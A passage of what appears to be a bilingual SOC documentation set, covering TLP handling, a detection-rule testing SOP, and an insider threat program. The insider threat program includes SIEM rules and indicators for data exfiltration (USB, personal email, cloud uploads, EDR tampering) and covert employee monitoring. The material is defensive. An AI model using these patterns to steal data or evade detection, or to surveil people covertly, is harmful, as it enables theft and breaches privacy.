-   **ตัวอย่าง**: แถลงการณ์ข่าว, บทความวิชาการ, รายละเอียด Patch
-   **การแบ่งปัน**: เผยแพร่สู่สาธารณะได้ทันที

## 4. การใข้งานในรายงาน (Incident Reports)
รายงานเหตุการณ์ทุกฉบับ ต้องระบุระดับ TLP อย่างชัดเจนที่ส่วนหัวของเอกสาร

## ขั้นตอนการจัดการตามระดับ TLP

| ระดับ TLP | การจัดเก็บ | การส่ง | การแชร์ |
|:---|:---|:---|:---|
| 🔴 RED | เข้ารหัส + โฟลเดอร์จำกัด | ช่องทางเข้ารหัสเท่านั้น | บุคคลที่ระบุชื่อเท่านั้น |
| 🟡 AMBER | เข้ารหัสขณะจัดเก็บ | TLS 1.2+ / อีเมลเข้ารหัส | ภายในองค์กร + พันธมิตร NDA |
| 🟢 GREEN | จัดเก็บ SOC มาตรฐาน | ช่องทางปลอดภัย | ชุมชนภาคส่วน / ISACs |
| ⚪ CLEAR | จัดเก็บทั่วไป | ช่องทางใดก็ได้ | สาธารณะ |

## สถานการณ์ทั่วไปและ TLP ที่ถูกต้อง

| สถานการณ์ | TLP ที่ถูกต้อง | เหตุผล |
|:---|:---|:---|
| IoCs จากเหตุการณ์ที่ active แชร์กับ ISP | 🟡 AMBER | มีรายละเอียดเฉพาะองค์กร |
| Hash จากการวิเคราะห์ Malware สาธารณะ | ⚪ CLEAR | ข้อมูลที่เปิดเผยสาธารณะ |
| Forensic image ของแล็ปท็อปพนักงาน | 🔴 RED | มีข้อมูลส่วนบุคคล/Credential |
| รายงานภัยคุกคามรายไตรมาสสำหรับ SOC พันธมิตร | 🟢 GREEN | ใช้ได้ทั่วไปในภาคส่วน |

## การตอบสนองต่อการฝ่าฝืน

| การฝ่าฝืน | ระดับ | การตอบสนอง |
|:---|:---|:---|
| TLP:RED ถูกแชร์ภายนอก | 🔴 วิกฤต | ควบคุมทันที, แจ้ง CISO |
| TLP:AMBER โพสต์สาธารณะ | 🟠 สูง | ลบเนื้อหา, รายงานเหตุการณ์ |
| ไม่มีเครื่องหมาย TLP | 🟡 กลาง | ส่งกลับผู้เขียน, ถือเป็น AMBER |

## 9. การทำเครื่องหมาย TLP ในทางปฏิบัติ

### รูปแบบหัวข้อ Email
```
[TLP:RED] เหตุการณ์ INC-2026-042 — ผลการวิเคราะห์ Forensic
[TLP:AMBER] ผลสแกนช่องโหว่ — Q1 2026
[TLP:GREEN] แจ้ง IOC — แคมเปญ Banking Trojan
[TLP:CLEAR] สรุป SOC ประจำเดือน — มกราคม 2026
```

### Template หัวเอกสาร
```
╔═══════════════════════════════════════════╗
║  TLP: [RED/AMBER/GREEN/CLEAR]            ║
║  วันที่จำแนก: YYYY-MM-DD                  ║
║  จำแนกโดย: [ชื่อ, ตำแหน่ง]                  ║
║  วันทบทวน: YYYY-MM-DD                     ║
╚═══════════════════════════════════════════╝
```

### รูปแบบ Chat/Slack
```
🔴 TLP:RED — ห้าม screenshot หรือ forward
[ข้อความที่มีข้อมูลอ่อนไหว]

🟡 TLP:AMBER — เฉพาะภายในองค์กร
[ข้อความที่จำกัด]
```

## 10. Data Loss Prevention (DLP) สำหรับ SOC

| ความเสี่ยง | การตรวจจับ | การป้องกัน |
|:---|:---|:---|
| Analyst คัดลอก IOCs ไปอุปกรณ์ส่วนตัว | DLP ตรวจ USB/cloud upload | Block USB, จำกัด cloud storage |
| Screenshot ข้อมูลอ่อนไหวถูกแชร์ | Screen monitoring (ถ้าสอดคล้อง) | Watermark หน้าจอ SOC |
| ข้อมูลสืบสวนส่งไปอีเมลส่วนตัว | Email DLP rules | Block personal email ใน SOC |
| หลักฐาน forensic บน drive ไม่เข้ารหัส | Asset inventory + ตรวจ encryption | Full disk encryption บังคับ |
| PII ในบันทึกสืบสวนบน shared drive | DLP content scanning | ฝึกอบรม data classification |

## 11. ตาราง Data Retention

| ประเภทข้อมูล | ระยะเก็บ | ที่เก็บ | วิธีทำลาย |
|:---|:---|:---|:---|
| SIEM raw logs | 90 วัน hot / 1 ปี cold | Encrypted storage | Automated purge |
| Incident tickets | 3 ปี | Ticketing system | Archive หลัง 3 ปี |
| หลักฐาน forensic | จนปิด case + 1 ปี | Encrypted vault | Secure wipe + certificate |
| Threat intelligence reports | 2 ปี | TI platform | Archive |
| SOC metrics/dashboards | 2 ปี | Reporting system | Archive |
| PII จากการสืบสวน | จนปิด case | Case file (encrypted) | Secure delete + DPO confirm |
| บันทึก PDPA breach | 5 ปี (ข้อกำหนดกฎหมาย) | Encrypted archive | เก็บตามกฎระเบียบ |

## บัตรอ้างอิงด่วน TLP

พิมพ์และติดที่โต๊ะทำงาน SOC:

```
╔══════════════════════════════════════════════╗
║          TLP 2.0 อ้างอิงด่วน                 ║
╠══════════════════════════════════════════════╣
║ 🔴 TLP:RED     — ผู้รับที่ระบุชื่อเท่านั้น      ║
║                  ห้ามส่งต่อ ห้ามแชร์            ║
║ 🟠 TLP:AMBER   — องค์กร + ต้องรู้             ║
║                  แชร์ในองค์กรได้                ║
║ 🟡 TLP:AMBER+S — องค์กร + ต้องรู้ เข้มงวด    ║
║                  ห้ามแชร์กับลูกค้า              ║
║ 🟢 TLP:GREEN   — แชร์ในชุมชน/ภาคส่วนได้      ║
║                  ห้ามโพสต์สาธารณะ              ║
║ ⚪ TLP:CLEAR   — สาธารณะ ไม่จำกัด            ║
║                  โพสต์ได้ทุกที่                  ║
╠══════════════════════════════════════════════╣
║ ไม่แน่ใจ → ถือเป็น TLP:AMBER                 ║
║ สงสัย? ถาม SOC Manager                       ║
╚══════════════════════════════════════════════╝
```

## เอกสารที่เกี่ยวข้อง (Related Documents)
-   [กรอบการตอบสนองเหตุการณ์](../05_Incident_Response/Framework.th.md)
-   [แบบประเมิน SOC](SOC_Assessment_Checklist.th.md)
-   [ตัวชี้วัด SOC](SOC_Metrics.th.md)

### Data Retention Schedule

| Data Type | Retention | Archive | Destroy |
|:---|:---|:---|:---|
| Security logs | 1 ปี | 3 ปี | Secure wipe |
| Incident data | 3 ปี | 5 ปี | Secure wipe |
| PII evidence | ตาม PDPA | ตาม PDPA | Certified destroy |
| Threat intel | 2 ปี | 5 ปี | Secure wipe |

### Quick Classification Guide

| Question | Yes → | No → |
|:---|:---|:---|
| Contains PII? | Restricted | Check next |
| Business sensitive? | Confidential | Check next |
| Internal only? | Internal | Public |

## References
-   [FIRST.org TLP 2.0 Standard](https://www.first.org/tlp/)
-   [CISA Traffic Light Protocol](https://www.cisa.gov/tlp)


---

## File: 06_Operations_Management/Detection_Rule_Testing.en.md

# Detection Rule Testing SOP

> **Document ID:** DRT-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Owner:** Detection Engineer / SOC Lead

---

## Purpose

Defines the process for testing detection rules (Sigma, YARA, custom SIEM) before deploying to production. Ensures rules detect real threats without excessive false positives.

---

## Testing Pipeline

```mermaid
graph LR
    Write[1. Write Rule] --> Validate[2. Syntax Validate]
    Validate --> BackTest[3. Backtest]
    BackTest --> Stage[4. Staging Test]
    Stage --> Peer[5. Peer Review]
    Peer --> Deploy[6. Deploy]
    Deploy --> Monitor[7. Monitor 7 Days]
```

### Step 1: Write Rule
- Follow [Sigma specification](https://sigmahq.io/docs/basics/rules.html)
- Include: title, description, author, date, MITRE ATT&CK mapping

### Step 2: Syntax Validation

```bash
# Use the project's validator
python tools/sigma_validator.py path/to/rule.yml

# Or use sigmac directly
sigmac -t splunk path/to/rule.yml
```

**Pass criteria:** Zero syntax errors, valid MITRE mapping.

### Step 3: Backtest (Historical Data)

Run the rule against **7–30 days** of historical logs:

```bash
# Splunk
index=windows sourcetype=WinEventLog:Security
| where [translate_sigma_to_spl]
| stats count by ComputerName, User

# Elastic
GET /logs-*/_search
{
  "query": { ... translated sigma ... },
  "aggs": { "per_host": { "terms": { "field": "host.name" } } }
}
```

**Pass criteria:**
- [ ] Detects known-bad events (if available in test data)
- [ ] False positive rate ≤ 20% (review top 20 hits manually)
- [ ] Alert volume ≤ 50/day (otherwise needs tuning)

### Step 4: Staging Test

If you have a staging SIEM:
1. Deploy rule to staging
2. Run Atomic Red Team test for the corresponding technique
3. Verify alert triggers with correct severity and context

If no staging:
1. Deploy rule as **disabled** in production
2. Run manually against live data for 24 hours
3. Review results before enabling

### Step 5: Peer Review

Another detection engineer or T2 analyst reviews:
- [ ] Logic is correct (no gaps, no over-matching)
- [ ] Whitelist/exclusions are appropriate
- [ ] MITRE mapping is accurate
- [ ] Description is clear for T1 analysts
- [ ] Related playbook is referenced

### Step 6: Deploy via Change Management

Follow [Change Management SOP](Change_Management.en.md):
- Standard category for new rules
- Git commit with descriptive message
- Tag with version

### Step 7: Monitor (7-Day Bake Period)

After deployment, monitor for 7 days:

| Metric | Target | Action if Failed |
|:---|:---:|:---|
| False positive rate | ≤ 20% | Tune whitelists |
| Alert volume | ≤ 50/day | Adjust thresholds |
| True positive detection | ≥ 1 (if applicable) | Verify by simulation |
| Performance impact | ≤ 5% query time increase | Optimize query |

---

## Rule Quality Checklist

```
□ Title is descriptive and unique
□ Description explains what the rule detects
□ Author and date are set
□ MITRE ATT&CK technique is mapped
□ Level (severity) is appropriate
□ Logsource is specified correctly
□ Detection logic uses correct field names
□ False positive section documents known FPs
□ References include source/blog/CVE
□ Tests pass: syntax, backtest, staging
□ Peer review approved
□ Change request submitted
```

---

## Automated Testing Framework

### Test-Driven Detection (TDD) Workflow

```mermaid
graph LR
    Hypothesis["Hypothesis/<br/>Threat Intel"] --> Write["Write<br/>Sigma Rule"]
    Write --> Test["Test with<br/>Atomic Red Team"]
    Test --> Validate{"Alert<br/>Fires?"}
    Validate -->|No| Refine["Refine<br/>Rule Logic"]
    Refine --> Test
    Validate -->|Yes| FPCheck{"FP Rate<br/>< 5%?"}
    FPCheck -->|No| Tune["Tune<br/>Exclusions"]
    Tune --> FPCheck
    FPCheck -->|Yes| Deploy["Deploy to<br/>Production"]
    Deploy --> Monitor["Monitor<br/>30 Days"]
```

### CI/CD Pipeline for Detection Rules

```yaml
# .github/workflows/detection-ci.yml
name: Detection Rule CI
on:
  pull_request:
    paths: ['rules/**/*.yml']

jobs:
  validate:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Validate Sigma syntax
        run: sigma check rules/
      - name: Check for duplicates
        run: python scripts/check_duplicates.py
      - name: Run against test logs
        run: python scripts/test_rules.py --log-dir test_logs/
      - name: MITRE coverage report
        run: python scripts/coverage_report.py
```

## Detection Rule Quality Benchmarks

| Metric | Target | Measurement |
|:---|:---|:---|
| **False Positive Rate** | < 5% per rule | FP alerts / total alerts per rule |
| **Detection Latency** | < 5 min from event to alert | Timestamp delta: event → alert |
| **Coverage** | > 60% MITRE ATT&CK techniques | Covered techniques / total |
| **Rule-to-Incident Ratio** | > 10% (1 in 10 alerts = real) | Incidents / total alerts |
| **Time to Deploy** | < 48h from discovery to production | PR created → merged → live |
| **Documentation** | 100% rules have description + references | Automated check |

## Rule Lifecycle Status Tracking

| Status | Definition | Action Required |
|:---|:---|:---|
| 🔵 **Draft** | Rule written, not yet tested | Schedule test in lab |
| 🟡 **Testing** | Deployed to test environment | Monitor for 7 days |
| 🟢 **Active** | Production, generating alerts | Normal monitoring |
| 🟠 **Tuning** | Active but high FP rate | Add exclusions, refine logic |
| ⚪ **Deprecated** | No longer relevant | Remove after 30-day notice |
| 🔴 **Broken** | Syntax error or produces no output | Fix within 24h |

## Related Documents

- [Change Management SOP](Change_Management.en.md)
- [Detection Rules Index](../08_Detection_Engineering/README.md) — All 36 Sigma rules with playbook mapping
- [Use Case Prioritization](../01_SOC_Fundamentals/Use_Case_Prioritization.en.md)
- [Alert Tuning SOP](Alert_Tuning.en.md) — Tuning methodology for noisy rules
- [PB-01 Phishing](../05_Incident_Response/Playbooks/Phishing.en.md) — Example: testing email detection rules
- [PB-02 Ransomware](../05_Incident_Response/Playbooks/Ransomware.en.md) — Example: testing file encryption rules
- [PB-25 Zero-Day Exploit](../05_Incident_Response/Playbooks/Zero_Day_Exploit.en.md) — Example: testing exploit payload rules


---

## File: 06_Operations_Management/Detection_Rule_Testing.th.md

# SOP ทดสอบ Detection Rule

> **รหัสเอกสาร:** DRT-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **เจ้าของ:** Detection Engineer / SOC Lead

---

## Pipeline การทดสอบ

```mermaid
graph LR
    A[1. เขียน Rule] --> B[2. ตรวจ Syntax]
    B --> C[3. Backtest]
    C --> D[4. ทดสอบ Staging]
    D --> E[5. Peer Review]
    E --> F[6. Deploy]
    F --> G[7. ติดตาม 7 วัน]
```

### ขั้นตอนสำคัญ:

**2. ตรวจ Syntax:**
```bash
python tools/sigma_validator.py path/to/rule.yml
```

**3. Backtest (7–30 วัน):**
- ตรวจจับ known-bad ได้ไหม?
- FP rate ≤ 20%?
- Alert ≤ 50/วัน?

**4. Staging:**
- Deploy เป็น disabled ก่อน
- รัน Atomic Red Team test
- ตรวจ alert trigger ถูกต้อง

**5. Peer Review:**
- [ ] Logic ถูกต้อง
- [ ] Whitelist เหมาะสม
- [ ] MITRE mapping ถูก
- [ ] คำอธิบายชัดเจนสำหรับ T1

**7. ติดตาม 7 วัน:**

| ตัวชี้วัด | เป้า | ถ้าไม่ผ่าน |
|:---|:---:|:---|
| FP rate | ≤ 20% | ปรับ whitelist |
| Alert volume | ≤ 50/วัน | ปรับ threshold |
| Performance | ≤ 5% เพิ่ม | optimize query |

---

## Checklist คุณภาพ Rule

```
□ Title ชัดเจน
□ มี MITRE ATT&CK mapping
□ Level (severity) เหมาะสม
□ Detection logic ใช้ field name ถูกต้อง
□ มี false positive section
□ ผ่านทดสอบ: syntax, backtest, staging
□ Peer review อนุมัติแล้ว
□ Submit Change Request แล้ว
```

---

## ตารางผลการทดสอบ

| Rule ID | ชื่อกฎ | ผลลัพธ์ | หมายเหตุ |
|:---|:---|:---:|:---|
| [ID] | [ชื่อ] | [✅/⚠️/❌] | [หมายเหตุ] |

## เกณฑ์การทดสอบ

| ระดับ | เกณฑ์ | การดำเนินการ |
|:---:|:---|:---|
| ✅ ผ่าน | แจ้งเตือนถูกต้อง, context ครบ, severity ถูก | Deploy ไปยัง Production |
| ⚠️ บางส่วน | แจ้งเตือนแต่ context ไม่ครบหรือ severity ผิด | ปรับปรุงแล้ว retest |
| ❌ ไม่ผ่าน | ไม่มีแจ้งเตือนหรือ FP สูง | แก้ไข logic แล้ว retest |

## รอบการทดสอบ

| การทดสอบ | ความถี่ | ผู้รับผิดชอบ |
|:---|:---|:---|
| ทดสอบกฎใหม่ | ก่อน deploy ทุกครั้ง | Detection Engineering |
| ทดสอบกฎที่มีอยู่ (regression) | รายเดือน | Detection Engineering |
| Full coverage test | รายไตรมาส | SOC Manager + Detection Eng |

## Rule Testing Methodology

### Test Plan Template

| Phase | Activity | Duration |
|:---|:---|:---|
| 1 | Unit test (lab) | 1-2 วัน |
| 2 | Integration test (staging) | 2-3 วัน |
| 3 | Shadow mode (prod) | 5-7 วัน |
| 4 | Active mode (prod) | Go-live |

### Rule Quality Metrics

| Metric | Target | Measurement |
|:---|:---|:---|
| True Positive Rate | > 90% | Weekly |
| False Positive Rate | < 10% | Weekly |
| Detection Latency | < 5 min | Per alert |
| Coverage (tactics) | > 70% | Monthly |

### Test Evidence Template

| Field | Content |
|:---|:---|
| Rule Name | [ชื่อ rule] |
| Test Date | [วันที่] |
| Tester | [ชื่อ] |
| Test Data | [description] |
| Expected Alert | [Yes/No + details] |
| Actual Result | [Pass/Fail + evidence] |

### Test Status Tracking

| Status | Meaning |
|:---|:---|
| Draft | ยังไม่ทดสอบ |
| Testing | กำลังทดสอบ |

## กรอบทดสอบอัตโนมัติ

### ขั้นตอน Test-Driven Detection (TDD)

```mermaid
graph LR
    Hypothesis["สมมติฐาน/<br/>Threat Intel"] --> Write["เขียน<br/>Sigma Rule"]
    Write --> Test["ทดสอบด้วย<br/>Atomic Red Team"]
    Test --> Validate{"Alert<br/>Trigger?"}
    Validate -->|ไม่| Refine["ปรับ<br/>Rule Logic"]
    Refine --> Test
    Validate -->|ใช่| FPCheck{"FP Rate<br/>< 5%?"}
    FPCheck -->|ไม่| Tune["ปรับ<br/>Exclusions"]
    Tune --> FPCheck
    FPCheck -->|ใช่| Deploy["Deploy ไป<br/>Production"]
    Deploy --> Monitor["ตรวจสอบ<br/>30 วัน"]
```

### CI/CD Pipeline สำหรับ Detection Rules

```yaml
# .github/workflows/detection-ci.yml
name: Detection Rule CI
on:
  pull_request:
    paths: ['rules/**/*.yml']

jobs:
  validate:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: ตรวจ Sigma syntax
        run: sigma check rules/
      - name: ตรวจ duplicates
        run: python scripts/check_duplicates.py
      - name: ทดสอบกับ test logs
        run: python scripts/test_rules.py --log-dir test_logs/
      - name: MITRE coverage report
        run: python scripts/coverage_report.py
```

## เกณฑ์คุณภาพ Detection Rule

| Metric | เป้าหมาย | วิธีวัด |
|:---|:---|:---|
| **False Positive Rate** | < 5% ต่อ rule | FP alerts / total alerts ต่อ rule |
| **Detection Latency** | < 5 นาทีจาก event ถึง alert | Timestamp delta: event → alert |
| **Coverage** | > 60% MITRE ATT&CK techniques | Covered techniques / total |
| **Rule-to-Incident Ratio** | > 10% (1 ใน 10 alerts = จริง) | Incidents / total alerts |
| **Time to Deploy** | < 48 ชม. จากค้นพบถึง production | PR created → merged → live |
| **Documentation** | 100% rules มี description + references | Automated check |

## สถานะ Rule Lifecycle

| สถานะ | นิยาม | ต้องดำเนินการ |
|:---|:---|:---|
| 🔵 **Draft** | เขียนแล้ว ยังไม่ทดสอบ | นัดทดสอบใน lab |
| 🟡 **Testing** | Deploy ใน test environment | ตรวจสอบ 7 วัน |
| 🟢 **Active** | Production, สร้าง alerts | ตรวจสอบปกติ |
| 🟠 **Tuning** | Active แต่ FP rate สูง | เพิ่ม exclusions, ปรับ logic |
| ⚪ **Deprecated** | ไม่เกี่ยวข้องแล้ว | ลบหลัง 30 วัน |
| 🔴 **Broken** | Syntax error หรือไม่มี output | แก้ภายใน 24 ชม. |

## เอกสารที่เกี่ยวข้อง

- [SOP จัดการเปลี่ยนแปลง](Change_Management.th.md)
- [ดัชนี Detection Rules](../08_Detection_Engineering/README.th.md) — Sigma rules ทั้ง 36 กฎพร้อม playbook mapping
- [Alert Tuning SOP](Alert_Tuning.th.md) — วิธีการปรับจูน rule ที่มีปัญหา
- [PB-01 Phishing](../05_Incident_Response/Playbooks/Phishing.th.md) — ตัวอย่าง: ทดสอบ email detection rules
- [PB-02 Ransomware](../05_Incident_Response/Playbooks/Ransomware.th.md) — ตัวอย่าง: ทดสอบ file encryption rules
- [PB-25 Zero-Day Exploit](../05_Incident_Response/Playbooks/Zero_Day_Exploit.th.md) — ตัวอย่าง: ทดสอบ exploit payload rules


---

## File: 06_Operations_Management/Insider_Threat_Program.en.md

# Insider Threat Program

**Document ID**: OPS-SOP-019
**Version**: 1.0
**Classification**: Confidential
**Last Updated**: 2026-02-15

> A structured program for **detecting, investigating, and mitigating insider threats** — malicious, negligent, or compromised insiders. Covers behavioral indicators, detection use cases, investigation procedures, and prevention strategies.

---

## Insider Threat Categories

| Category | Description | Intent | Example |
|:---|:---|:---:|:---|
| **Malicious** | Deliberate harmful actions for personal gain or revenge | Intentional | Data theft, sabotage before resignation |
| **Negligent** | Unintentional harm through carelessness or policy violation | Unintentional | Sending PII to wrong recipient, weak passwords |
| **Compromised** | External attacker using legitimate insider credentials | N/A (external) | Phished credentials, stolen laptop |
| **Colluding** | Insider working with external threat actor | Intentional | Selling access, planting backdoors |

```mermaid
pie title Insider Threat Distribution (Industry Average)
    "Negligent" : 56
    "Malicious" : 26
    "Compromised Credentials" : 18
```

---

## Behavioral Indicators

### High-Risk Indicators (Immediate Investigation)

| # | Indicator | Data Source | Detection Method |
|:---:|:---|:---|:---|
| 1 | **Accessing data outside role** | DLP, CASB, file audit | UEBA anomaly |
| 2 | **Bulk download/copy to USB** | EDR, DLP, print logs | Threshold rule |
| 3 | **After-hours access to sensitive systems** | SIEM, badge logs | Time-based rule |
| 4 | **Email to personal accounts with attachments** | Email gateway, DLP | DLP policy |
| 5 | **Disabling security controls** | EDR, SIEM | Agent health monitoring |
| 6 | **Unauthorized cloud storage uploads** | CASB, proxy | URL category + volume |
| 7 | **Accessing terminated employee's data** | File audit, IAM | Access control monitoring |

### Medium-Risk Indicators (Monitor & Correlate)

| # | Indicator | Data Source | Detection Method |
|:---:|:---|:---|:---|
| 8 | **Frequent failed access attempts** | IAM, VPN, app logs | Threshold rule |
| 9 | **Printing large volumes** | Print server logs | Threshold rule |
| 10 | **VPN from unusual location** | VPN logs, GeoIP | GeoIP anomaly |
| 11 | **Privilege escalation requests** | IAM, ticketing | Trend analysis |
| 12 | **Working outside normal patterns** | Badge, VPN, SIEM | UEBA baseline |
| 13 | **Excessive use of tools** | EDR, SIEM | UEBA anomaly |

### Contextual Risk Multipliers

| Context | Risk Multiplier | Source |
|:---|:---:|:---|
| **Resignation submitted** | ×3 | HR notification |
| **PIP (Performance Improvement Plan)** | ×2 | HR notification |
| **Access to crown jewels** | ×2 | Data classification |
| **Privileged access (admin/root)** | ×2 | IAM roles |
| **Contractor/temporary staff** | ×1.5 | HR/vendor records |
| **Recent negative performance review** | ×1.5 | HR notification |
| **Accessing competitor's job sites** | ×1.5 | Proxy logs |

---

## Detection Architecture

```mermaid
graph TD
    subgraph DataSources["📊 Data Sources"]
        A[DLP Alerts]
        B[UEBA Anomalies]
        C[EDR Events]
        D[IAM / Badge Logs]
        E[Email Gateway]
        F[HR Notifications]
    end
    
    subgraph CorrelationEngine["🔍 Correlation Engine"]
        G[Risk Score Calculator]
        H[Behavioral Baseline]
        I[Context Enrichment]
    end
    
    subgraph Response["⚡ Response"]
        J[Score < 50: Monitor]
        K[Score 50-80: Investigate]
        L[Score > 80: Immediate Action]
    end
    
    A --> G
    B --> G
    C --> G
    D --> G
    E --> G
    F --> I
    H --> G
    I --> G
    
    G --> J
    G --> K
    G --> L

    style CorrelationEngine fill:#3b82f6,color:#fff
    style L fill:#dc2626,color:#fff
```

### SIEM Detection Rules

| Rule | Logic | Severity | MITRE |
|:---|:---|:---:|:---|
| **Bulk data download** | > 500 MB downloaded in 1 hour by single user | P2 | T1530 |
| **USB mass storage** | USB device with > 100 MB write | P2 | T1052.001 |
| **Email to personal domain** | Attachment > 5 MB to non-corporate domain | P3 | T1567 |
| **Cloud upload spike** | > 200% increase in cloud upload vs 30-day baseline | P2 | T1567.002 |
| **Off-hours sensitive access** | Access to classified data 22:00–06:00 | P3 | T1530 |
| **Resignation + data access** | HR flag + any data access within 14 days | P2 | T1530 |
| **Multiple failed admin access** | > 5 failed admin login in 10 min | P2 | T1110 |
| **Security tool tampering** | EDR agent stopped/uninstalled | P1 | T1562.001 |
| **Printing sensitive docs** | Print job from classified document | P3 | T1052 |

---

## Investigation Procedures

### Investigation Workflow

```mermaid
flowchart TD
    A[Insider Threat Alert] --> B[Initial Assessment]
    B --> C{Risk Score}
    
    C -->|< 50| D[Add to watchlist<br/>Passive monitoring]
    C -->|50-80| E[Formal investigation<br/>Notify HR & Legal]
    C -->|> 80| F[CRITICAL: Immediate<br/>containment + notify CISO]
    
    E --> G[Covert evidence collection]
    F --> H[Emergency access revocation]
    F --> G
    H --> G
    
    G --> I[Timeline reconstruction]
    I --> J[Interviews / HR process]
    J --> K{Confirmed?}
    
    K -->|Malicious| L[Terminate + Legal action]
    K -->|Negligent| M[Remediation + Training]
    K -->|Compromised| N[Credential reset + forensics]
    K -->|Not confirmed| O[Close case + document]
    
    L --> P[Lessons learned]
    M --> P
    N --> P
    O --> P

    style F fill:#dc2626,color:#fff
    style L fill:#dc2626,color:#fff
    style M fill:#eab308,color:#000
    style N fill:#3b82f6,color:#fff
```

### Investigation Checklist

- [ ] **Initial assessment** — Review alert details, check user context
- [ ] **Identity verification** — Confirm user behind the activity (not shared account)
- [ ] **HR notification** — Inform HR (mandatory for formal investigation)
- [ ] **Legal consultation** — Verify investigation is legally compliant
- [ ] **Evidence preservation** — Begin covert collection (do NOT alert subject)
- [ ] **Access review** — Document all systems/data subject can access
- [ ] **Timeline construction** — Build activity timeline (SIEM, email, badge, VPN)
- [ ] **Data exposure assessment** — Determine what data was accessed/exfiltrated
- [ ] **Interviews** — Coordinate with HR for subject interview
- [ ] **Documentation** — Complete investigation report
- [ ] **Remediation** — Implement corrective actions
- [ ] **Lessons learned** — Update detection rules if gaps found

### Evidence Sources (Priority Order)

| # | Source | What to Collect | Covert? |
|:---:|:---|:---|:---:|
| 1 | **SIEM logs** | All activity for subject (30-90 days) | ✅ Yes |
| 2 | **DLP alerts** | All DLP events for subject | ✅ Yes |
| 3 | **Email logs** | Sent emails with attachments | ✅ Yes |
| 4 | **Badge/physical access** | Entry/exit times, room access | ✅ Yes |
| 5 | **VPN logs** | Connection times, source IPs | ✅ Yes |
| 6 | **Proxy logs** | Web activity, cloud uploads | ✅ Yes |
| 7 | **EDR telemetry** | Process execution, file access | ✅ Yes |
| 8 | **Print server logs** | Print jobs, document names | ✅ Yes |
| 9 | **Cloud audit logs** | Cloud resource access | ✅ Yes |
| 10 | **Device forensics** | Disk image (only with legal approval) | ⚠️ Consult Legal |

---

## Prevention & Deterrence

### Pre-Employment

| Control | Description |
|:---|:---|
| Background checks | Verify identity, criminal record, employment history |
| Reference checks | Validate previous employers |
| NDA/Employment agreement | Include data handling obligations |

### During Employment

| Control | Description |
|:---|:---|
| **Least privilege access** | Only access needed for role |
| **Regular access reviews** | Quarterly review of permissions |
| **DLP policies** | Block/alert on sensitive data movement |
| **Security awareness training** | Annual training on data protection |
| **Clear desk / clean screen** | Physical security policies |
| **Mandatory vacation** | 2+ consecutive weeks (detect fraud) |
| **Separation of duties** | Critical actions require 2+ approvers |

### Off-boarding (Critical)

| Step | Timing | Owner |
|:---|:---:|:---|
| Disable all accounts | Within 1 hour of departure | IT |
| Revoke physical access | Same day | Facilities |
| Collect devices | Same day | IT |
| Revoke VPN/remote access | Within 1 hour | IT |
| Transfer data ownership | Within 1 week | Manager |
| Review last 30 days activity | Within 1 week | SOC |
| Archive mailbox | Within 1 day | IT |

---

## HR-SOC Integration

### Mandatory HR Notifications to SOC

| HR Event | Risk Level | SOC Action |
|:---|:---:|:---|
| **Resignation/termination notice** | 🔴 High | Enable enhanced monitoring for 14 days |
| **Performance improvement plan (PIP)** | 🟠 Medium | Add to watchlist |
| **Role change with access change** | 🟡 Low | Verify access adjustment |
| **Contractor onboarding** | 🟡 Low | Verify access scope |
| **Disciplinary action** | 🟠 Medium | Add to watchlist for 30 days |
| **Security policy violation** | 🟠 Medium | Investigate, add to watchlist |

### Notification Process

```mermaid
sequenceDiagram
    participant HR
    participant SOC as SOC Lead
    participant SIEM
    
    HR->>SOC: Employee event notification (encrypted)
    SOC->>SIEM: Create/update user risk profile
    SIEM->>SIEM: Apply enhanced monitoring rules
    SOC->>HR: Confirm monitoring activated
    
    Note over SOC,SIEM: Monitoring period (14-30 days)
    
    alt Suspicious activity detected
        SIEM->>SOC: Alert triggered
        SOC->>HR: Notify for investigation
        SOC->>SOC: Begin formal investigation
    else No activity
        SIEM->>SOC: Monitoring period expired
        SOC->>SOC: Remove enhanced monitoring
        SOC->>HR: All clear notification
    end
```

---

## Metrics

| Metric | Target | Measurement |
|:---|:---:|:---|
| Mean time to detect insider threat | < 48 hours | Alert timestamp vs first activity |
| Investigation completion time | < 10 business days | Ticket timestamps |
| False positive rate | < 40% | Confirmed vs total alerts |
| Off-boarding compliance (accounts disabled < 1hr) | 100% | IT audit |
| HR notification compliance | 100% | HR audit |
| DLP policy coverage | > 90% of sensitive data | DLP coverage report |
| Access review completion | 100% quarterly | IAM reports |

---

## Legal & Privacy Considerations

> ⚠️ **IMPORTANT**: Always consult Legal before conducting insider threat investigations.

| Topic | Guidance |
|:---|:---|
| **PDPA compliance** | Employee monitoring must be disclosed in privacy notice |
| **Proportionality** | Monitoring scope must be proportionate to risk |
| **Covert monitoring** | Requires legal authorization, document justification |
| **Device monitoring** | Company-owned devices only (unless BYOD agreement) |
| **Email review** | Only corporate email, with legal approval |
| **Interview procedures** | HR must be present, follow labor law |
| **Evidence admissibility** | Follow chain of custody for legal proceedings |

---

## Related Documents

-   [Forensic Investigation](../05_Incident_Response/Forensic_Investigation.en.md) — Evidence handling
-   [Incident Classification](../05_Incident_Response/Incident_Classification.en.md) — Severity classification
-   [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md) — Escalation procedures
-   [Alert Tuning SOP](Alert_Tuning.en.md) — UEBA tuning
-   [Third-Party Risk](Third_Party_Risk.en.md) — Contractor/vendor risk
-   [SOC Automation Catalog](SOC_Automation_Catalog.en.md) — Automated response


---

## File: 06_Operations_Management/Insider_Threat_Program.th.md

# Insider Threat Program / โปรแกรม Insider Threat

**รหัสเอกสาร**: OPS-SOP-019
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ลับ
**อัปเดตล่าสุด**: 2026-02-15

> โปรแกรมสำหรับ **ตรวจจับ, สืบสวน, และบรรเทา insider threats** — ทั้งแบบจงใจ, ประมาท, หรือถูกใช้เป็นเครื่องมือ ครอบคลุม behavioral indicators, detection use cases, ขั้นตอนสืบสวน, และกลยุทธ์ป้องกัน

---

## ประเภท Insider Threat

| ประเภท | คำอธิบาย | เจตนา | ตัวอย่าง |
|:---|:---|:---:|:---|
| **Malicious** | กระทำเพื่อผลประโยชน์ส่วนตัว/แก้แค้น | จงใจ | ขโมยข้อมูลก่อนลาออก |
| **Negligent** | ทำผิดพลาดจากประมาท | ไม่จงใจ | ส่ง PII ไปผิดคน, รหัสผ่านอ่อน |
